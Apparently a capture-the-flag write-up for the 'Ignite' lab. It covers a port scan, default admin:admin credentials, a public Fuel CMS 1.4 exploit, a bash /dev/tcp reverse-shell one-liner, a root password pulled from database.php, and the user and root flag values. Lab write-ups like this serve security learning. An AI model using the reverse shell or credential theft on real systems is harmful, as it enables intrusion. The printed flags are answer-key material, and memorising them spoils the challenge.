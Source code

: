 # Ignite

### IP Address
```
10.10.235.13
```

### Scan

port | type | state | service | version
-----|------|-------|---------|--------
80 | open | tcp | http | Apache httpd 2.4.18 ((Ubuntu))
 

website running robots.txt file found with disallowed entry **/fuel/**

### Credentials found

>admin:admin

Website running on **fuelCMS v1.4**
Exploited **fuelCMS v1.4** using [exploit](https://www.exploit-db.com/exploits/47138)

created reverse shell connection using nc command

> bash -i >& /dev/tcp/10.10.235.13/4444 0>&1

### Task
user.txt
flag found in **/home** directory

>6470e394cbf6dab6a91682cc8585059b
root.txt
credential for root user found in ```fuel/application/config/database.php```
>root:mememe

root flag found in **/root/root.txt**
>b9bbcb33e11b80be759c4e844862482d
